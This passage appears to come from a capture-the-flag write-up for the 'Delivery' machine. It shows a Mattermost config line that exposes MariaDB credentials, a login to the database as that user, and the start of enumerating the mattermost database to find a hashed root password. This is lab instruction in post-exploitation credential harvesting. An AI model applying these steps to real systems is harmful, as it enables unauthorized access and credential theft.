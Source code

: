 In here there's a very interesting line! Seems to give up the database credentials (And also appears to be a fun hint). Also manually browsing through the file reveals this is a **MariaDB** setup.
```json
"DataSource": "mmuser:Crack_The_MM_Admin_PW@tcp(127.0.0.1:3306)/mattermost?charset=utf8mb4,utf8\u0026readTimeout=30s\u0026writeTimeout=30s",
```

#### Extracting credentials from the DB
Login to the database
```bash
maildeliverer@Delivery:~$ mysql -u mmuser -p
Enter password: 
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 363
Server version: 10.3.27-MariaDB-0+deb10u1 Debian 10

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]> 
```

Now look through the databases, tables, and columns, and rows to discover a hashed root user password
```sql
MariaDB [(none)]> show databases;                                                                                                                                                                                                          
+--------------------+                                                                                                                                                                                                                     
| Database           |                                                                                                                                                                                                                     
+--------------------+                                                                                                                                                                                                                     
| information_schema |                                                                                                                                                                                                                     
| mattermost         |                                                                                                                                                                                                                     
+--------------------+                                                                                                                                                                                                                     
2 rows in set (0.000 sec)                                                                                                                                                                                                                  
                                                                                                                                                                                                                                           
MariaDB [(none)]> use mattermost;                                                                                                                                                                                                          
Reading table information for completion of table and column names                                                                                                                                                                         
You can turn off this feature to get a quicker startup with -A                                                                                                                                                                             
                                                                                                                                                                                                                                           
Database changed                                                                                                                                                                                                   
```